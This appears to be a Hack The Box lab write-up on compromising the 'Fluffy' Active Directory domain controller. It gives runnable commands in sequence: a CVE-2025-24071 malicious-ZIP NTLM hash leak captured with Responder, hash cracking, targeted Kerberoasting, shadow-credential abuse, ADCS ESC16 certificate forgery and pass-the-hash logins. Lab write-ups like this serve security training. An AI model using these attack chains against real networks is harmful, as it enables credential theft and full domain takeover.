## Testing

IP:
```IP
10.129.232.88
```

Given credentials:
```User
j.fleischman
```
```Password
J0elTHEM4n1990!
```

----
Start: 21:00 aug 30

ports

```
sudo nmap -p- -Pn -n -vv --min-rate=5000 10.129.232.88 -oG network/nmap_ports.txt
```



DNS, Kerberos, LDAP, SMB, RPC, WinRM - Domain Controller, Active Directory

service

```
sudo nmap -p53,88,139,389,445,464,593,636,3268,3269,5985,9389,49667,49689,49690,49696,49709,49723 --min-rate=5000 -sCV 10.129.232.88 -oN network/nmap_service.txt
```



Kerberos current time: 2026-08-31 03:03:42
Domain: fluffy.htb
Hostname: DC01



SMB message sugning required, no relay

Add IP - Domain/Hostname to /etc/hosts



Validating credentials

SMB

```
nxc smb DC01 -u 'j.fleischman' -p 'J0elTHEM4n1990!'
```



Creedentials valid via SMB
OS: Windows 10 / Server 2019 Build 17763

LDAP

```
nxc ldap DC01 -u 'j.fleischman' -p 'J0elTHEM4n1990!'
```



Credentials valid via LDAP
No signing, no channel binding, relay possible (if this was network with more hosts joined to the domain)

Enumerating Shares

```
nxc smb DC01 -u 'j.fleischman' -p 'J0elTHEM4n1990!' --shares
```



Read access to:
- IPC
- IT
- Netlogon
- SYSVOL
Write access to:
- IT

Quick gpp password in SYSVOL check

```
nxc smb DC01 -u 'j.fleischman' -p 'J0elTHEM4n1990!' -M gpp_password
```

No result

Enumerating IT share

```
smbclient -U j.fleischman //DC01/IT
```



Interesting files, specially keepass files. get all

```
mget **
```



Opening the PDF first
The PDF is a remediation list of what seems CVEs that were discovered on the target domain.



CVEs listed:
- CVE-2025-24996
- CVE-2025-24071
- CVE-2025-46785
- CVE-2025-29968
- CVE-2025-21193
- CVE-2025-3445



Email at the bottom: infrastructure@fluffy.htb. Valid User infrastructure?

Moving to Everything-1.*

```
unzip Everything-1.4.1.1026.x64.zip
```



Executable (.exe) and what seems a program file for menus (.lng), for a microsoft music application Winamp. https://fileinfo.com/extension/lng

keepass file

```
unzip KeePass-2.58.zip
```

It seems is the program, as backup I guess, but see interesting file with PasswordsOnly naming

```
cat KDBX_PasswordsOnly_TXT.xsl
```



Nothing, files are just the program config and data. Dont see any database file

Trying to get shell with psexec since have write to IT share

```
impacket-psexec 'fluffy.htb/j.fleischman:J0elTHEM4n1990!@DC01'
```



Nothing
I could upload malicious files hoping any user opens it to capture a hash with responder of maybe get a reverse shell, but not sure what.

Looking up what those CVEs listed.

CVE-2025-24996
https://www.sentinelone.com/vulnerability-database/cve-2025-24996/:
"...sending crafted NTLM authentication requests to the vulnerable system."

```Powershell
Invoke-WebRequest -Uri "http://vulnerable-system/path?file=\malicious\payload" -UseBasicParsing
```

---
CVE-2025-24071
https://github.com/ThemeHackers/CVE-2025-24071/

"...An unauthenticated attacker can exploit this vulnerability by constructing RAR/ZIP files containing a malicious SMB path. Upon decompression, this triggers an SMB authentication request, potentially exposing the user's NTLM hash"

Repo contains a easy to use PoC. Im going to try with this one

```
wget https://raw.githubusercontent.com/ThemeHackers/CVE-2025-24071/refs/heads/main/exploit.py
```

Run it, specify local IP

```
python3 exploit.py -i 10.10.15.228 -f exploit
```



```
mv exploit.zip Everything-1.4.2.1026.x64.zip
```

Using similar naming to existing files on IT share (probably trivial for this HTB machine but why not)

Start responder

```
sudo responder -I tun0
```

Connect to IT SMB share

```
smbclient -U j.fleischman //DC01/IT
```

```
put Everything-1.4.2.1026.x64.zip
```



File uploaded. After seconds I get a Net-NTLMv2 Hash for p.agila. The attack was successful



Cracking

```
hashcat -m 5600 ~/kali-share/p.agila_netntlmv2.txt /opt/tools/wordlists/rockyou.txt
```



Cracked

New creds:
```User
p.agila
```
```Password
prometheusx-303
```

End: 23:05 aug 30

---

Start: 10:40 aug 31

Validating obtained credentials

```
nxc smb DC01 -u 'p.agila' -p 'prometheusx-303'
```



Valid, also via LDAP

Bloodhound enumeration
Running rusthound collector

```
./rusthound-ce -d fluffy.htb -u p.agila -p 'prometheusx-303' -f DC01 -z
```



Run Bloodhound backend and web interface with docker
Upload ZIP file, search for owned users (j.fleischman and p.agila), right click > Add to Owned
Administration > BH config > Analyze Now

Query: Shortest Path from Owned Objects



p.agila is a member of Service Account Managers Group
1. Service Account Managers has **GenericAll** over Service Accounts Group
2. Service Accounts Group has GenericWrite over winrm_svc, member of RMU
3. Besides, Service Accounts Group also has GenericWrite to ca_svc. a member of cert publishers
4. Cert Publishers has GenericAll over AIA container that contains Fluffy-DC01-CA AIACA and also GenericAll over RootCA

---

1. Abusing GenericAll over Group, adding controlled account to the group to take advantage of the group permissions

```
net rpc group addmem "Service Accounts" "p.agila" -U "FLUFFY.HTB"/"p.agila"%"prometheusx-303" -S "10.129.232.88"
```

Verify

```
net rpc group members "Service Accounts" -U "FLUFFY.HTB"/"p.agila"%"prometheusx-303" -S "10.129.232.88"
```



2. Abusing GenericWrite over account - Trying with targeted kerberoast and crack hash

Sync with KDC

```
sudo ntpdate 10.129.232.88
```

```
./targetedKerberoast.py -v -d fluffy.htb -u p.agila -p prometheusx-303 --dc-ip 10.129.232.88 -f hashcat
```



Got 3 hashes for:
- ca_svc
- ldap_svc
- winrm_svc

Copied and saved to files
Will try to crack all 3 even though im mostly interested on winrm_svc and ca_svc.

Cracking

```
hashcat -m 13100 fluffy.htb.winrm_svc.hash /opt/tools/wordlists/rockyou.txt
```

hashcat shows "Exhausted". No match

Trying with Shadow Credentials

with certipy

```
certipy-ad shadow auto -u p.agila@fluffy.htb -p 'prometheusx-303' -account winrm_svc -dc-ip 10.129.232.88
```

`[-] Got error: socket connection error while opening: [Errno 113] No route to host`

with pyWhisker

```
./pywhisker.py -d "fluffy.htb" -u "p.agila" -p "prometheusx-303" --target "winrm_svc" --action "add"
```

Error

Cant think of more techniques to abuse GenericWrite, maybe logon script but I doubt is the intended path. Continue debuggin certipy adding more flags to specify target

```
certipy shadow auto -u p.agila@fluffy.htb -p 'prometheusx-303' -account winrm_svc -dc-ip 10.129.232.88 -dc-host DC01 -target-ip 10.129.232.88
```



NT hash for 'winrm_svc': 33bd09dcd697600edf6b3a7af4875767

```
certipy shadow auto -u p.agila@fluffy.htb -p 'prometheusx-303' -account ca_svc -dc-ip 10.129.232.88 -dc-host DC01 -target-ip 10.129.232.88
```

NT hash for 'ca_svc': ca0f4f9e9eb8a092addf53bb03fc98c8

Now is working

First connecting via WinRM with winrm_svc account

```
evil-winrm -i DC01 -u winrm_svc -H '33bd09dcd697600edf6b3a7af4875767'
```

Context and proof

```
whoami;ipconfig;type c:\users\winrm_svc\desktop\user.txt
```



Conected as winrm_svc at target system DC01. Obtained user.txt
user.txt: 80dd8eb0fa038a04e83ec0d01d09d3d6

---
Privilege escalation

Enumerating certificates with ca_svc account

```
certipy-ad find -u ca_svc -hashes ca0f4f9e9eb8a092addf53bb03fc98c8 -dc-ip 10.129.232.88 -dc-host DC01 -target-ip 10.129.232.88 -vulnerable
```



Certipy calls ESC16 vulnerability. Is new to me. It seems is not tied to any templace but to permissions over CA

ESC16 Abuse

Reading https://www.hackingarticles.in/adcs-esc16-security-extension-disabled-on-ca-globally/

Setting admin UPN over ca_svc

```
certipy account -u p.agila -p prometheusx-303 -dc-ip 10.129.232.88 -user ca_svc -upn administrator update
```



Request certificate

 ```
certipy req -u ca_svc -hashes ca0f4f9e9eb8a092addf53bb03fc98c8 -ca FLUFFY-DC01-CA -template 'User' -upn administrator -dc-ip 10.129.232.88 -dc-host DC01
 ```



Get administrator.pfx

Authenticate

```
certipy auth -dc-ip 10.129.232.88 -pfx administrator.pfx -username administrator -domain fluffy.htb
```

When authenticating with cert, I get name matching error



Hint: https://www.youtube.com/watch?v=KvUC7bakm-E. Min 35
Have to set UPN back to normal for it not to conflict with administrator UPN and username.

Set UPN back to normal

```
certipy account -u p.agila -p prometheusx-303 -dc-ip 10.129.232.88 -user ca_svc -upn ca_svc update
```



Authenticate with certificate

```
certipy auth -dc-ip 10.129.232.88 -pfx administrator.pfx -username administrator -domain fluffy.htb
```



hash for 'administrator@fluffy.htb': aad3b435b51404eeaad3b435b51404ee:8da83a3fa618b6e3a00e93f676c92a6e

Connecting as admin to target system

```
evil-winrm -i DC01 -u administrator -H '8da83a3fa618b6e3a00e93f676c92a6e'
```

Context and proof:

```
whoami;ipconfig;type c:\users\administrator\desktop\root.txt
```

